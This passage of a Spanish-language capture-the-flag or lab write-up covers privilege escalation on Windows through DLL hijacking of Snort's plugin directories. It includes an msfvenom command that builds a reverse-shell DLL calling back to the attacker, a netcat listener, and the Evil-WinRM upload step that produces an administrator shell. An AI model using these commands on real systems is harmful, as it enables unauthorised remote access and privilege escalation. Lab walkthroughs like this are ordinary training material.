 ```poweshell
Successfully processed 1 files; Failed processing 0 files
```

Observo que en este directorio tenemos archivos .dll, por lo que podemos intentar un secuestro de DLL:

```powershell
*Evil-WinRM* PS C:\Users\jdoe\Documents> cmd.exe /c dir C:\Snort\lib\snort_dynamicengine
 Volume in drive C has no label.
 Volume Serial Number is 0071-E237

 Directory of C:\Snort\lib\snort_dynamicengine

07/08/2023  03:31 PM    <DIR>          .
07/08/2023  03:31 PM    <DIR>          ..
05/24/2022  06:48 AM            78,336 sf_engine.dll
               1 File(s)         78,336 bytes
               2 Dir(s)   4,018,229,248 bytes free
```

Para ello, creamos un archivo malicioso .dll con msfvenom:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=9999 -f dll -a x64 -o nr.dll  
```

Nos ponemos en escucha:

```bash
rlwrap -cAr nc -lvnp 9999
```

luego vamos a la ruta ``C:\Snort\lib\snort_dynamicpreprocessor`` y dentro de ese directorio subimos nuestra dll maliciosa

```bash
upload nr.dll
```

En 1 minuto tendremos un shell como administrador.